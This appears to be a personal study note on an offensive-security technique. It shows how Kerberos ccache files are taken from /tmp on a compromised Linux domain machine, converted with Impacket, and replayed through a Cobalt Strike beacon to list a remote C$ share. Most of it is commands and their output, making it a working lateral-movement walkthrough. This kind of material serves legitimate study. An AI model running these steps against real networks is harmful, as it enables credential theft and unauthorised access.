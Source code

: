```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Credential Cache]]  
___

## Description:  
For Linux domain joined machines

Kerberos Credential Cache (ccache) files hold the Kerberos credentials for a user authenticated to a domain-joined Linux machine, often a cached TGT. If you compromise such a machine, you can extract the ccache of any authenticated user and use it to request service tickets (TGSs) for any other service in the domain.

The ccache files are stored in `/tmp` and are prefixed with `krb5cc`.

```
svc_oracle@nix-1:~$ ls -l /tmp/
total 20
-rw------- 1 jking      domain users 1342 Mar  9 15:21 krb5cc_1394201122_MerMmG
-rw------- 1 svc_oracle domain users 1341 Mar  9 15:33 krb5cc_1394201127_NkktoD
```

We can see by the permission column that only the user and root can access them

Use this root to download `krb5cc_1394201122_MerMmG` to your Kali VM.

we can use **Impacket** to convert this ticket from **ccache** to **kirbi** format.

```
root@kali:~# impacket-ticketConverter krb5cc_1394201122_MerMmG jking.kirbi
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done

```

Now we can use this kirbi with a sacrificial logon session.

```
beacon> make_token DEV\jking FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jking.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     03/09/2021 12:32:56   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/09/2021 12:30:35   pagefile.sys
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (01:27 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
